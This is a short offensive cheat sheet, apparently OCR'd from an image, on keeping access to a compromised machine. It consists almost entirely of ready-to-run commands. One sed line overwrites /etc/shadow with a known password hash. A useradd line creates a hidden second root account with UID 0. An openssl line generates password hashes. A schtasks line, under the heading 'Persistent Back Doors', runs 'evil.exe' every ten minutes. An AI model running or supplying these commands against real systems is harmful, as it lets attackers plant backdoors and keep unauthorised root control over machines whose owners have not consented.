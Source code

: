 # Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
Creating Another root User
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
Generating OpenSSL Password
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
Persistent Back Doors
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
